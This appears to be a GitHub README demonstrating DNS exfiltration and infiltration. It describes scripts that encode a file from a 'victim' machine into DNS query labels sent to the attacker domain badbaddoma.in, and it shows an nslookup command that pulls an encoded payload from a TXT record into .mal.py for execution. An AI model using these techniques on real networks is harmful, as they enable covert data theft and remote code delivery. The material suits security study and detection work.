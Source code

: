 # Showcase of DNS Exfiltration and Infiltration  
Simple showcase of how to transfer data in and out of a network through the use of DNS queries and TXT records  

# Items used  
* tshark (to capture traffic on a linux box)
* python scripts (to either send dns queries or decode queries from .pcap file)

# Transfer with DNS Queries
Have your remote DNS Server capture incoming DNS queries through the use of _tshark_.  
On the 'Victim's PC' have a .txt file ready. The text file can contains any information, but keep  
in mind that the longer the text file the longer you will have to wait for all the queries to transfer.  
When you are ready run:  
```python
python3 packety.py
```
It will prompt you for a filename, once entered it will proceed to encode the data from the file.  
Once everything is encoded it will wait for user input to start transferring the data over DNS queries.  
  
Here is the process:  
1. Asks for filename.  
2. Encodes the data from file to Base64 then Base58.  
3. Encoded data is split into sections of 9. ['5eaw531rt', '25tyhj5hj']  
4. Function Encryptor is executed. For each 'list element' it append a random letter at the front, and two random letters at the back.  
['x5eaw531rtzh', 'a25tyhj5hjui']
5. Waits for user input.  
6. Begins transmitting data through DNS queries.  
x5eaw531rtzh.badbaddoma.in  
a25tyhj5hjui.badbaddoma.in  
  
To Decode your data run -> (On DNS Server where you captured the traffic through _tshark_):
```python
python3 packetyGrabber.py
```
Asks the user for the filename of the .pcap file.  
It then proceeds to decode the data. Once finished it will display the data in the terminal.  
  
Here is the process:  
1. Asks for PCAP filename.  
2. Filters through PCAP for 'dns.qry_name' == 'badbaddoma'.  
3. Strips away the first character and the last two characters. (Because we added 'extra' encryption in previous Step.4^)
4. Decodes data from Base58 then Base64.
5. Prints decoded data in the terminal.

# Infiltrate data into a network through DNS TXT records  
On your DNS Server have a TXT record, for example  
```python
text                IN      TXT     "Test TXT record"  
```
When you do: 
```python
nslookup -type=txt text.badbaddoma.in
```
you will get "Test TXT record", keep in mind TXT record is limited to 255 characters.  
  
For this Demo I will be Infiltration the following python code:
```python
import os
with open('.mal.py', 'w') as wr:
	wr.write('while True: print("maLwAre CoDe")')
os.system(f'python3 .mal.py')
```
The code above needs to be encoded to Base64 then Base58. And then from the encoded data we will make a TXT record containing  
that encoded data.  
To get the encoded code ^ you will need to make a TXT record query to your DNS Server, it will look something like this:
# Linux  
```python
nslookup -type=txt rt1.badbaddoma.in | grep 3x | cut -d \" -f2 > .mal.py
```
It's a simple python code that when ran it will create a new file(if non-existing) and write simple code into the file.  
It then will run the file that we created.  
Here is where my last python script comes in the play.  
It's a recycled code from previous scripts that upon execution it will again asks for a filename, the filename being the file  
where we stored our encoded data from the TXT record.  
It will then decode the data(overwrites the file that has the encoded data with the python code), put itself to sleep for 3 seconds and then execute the code.
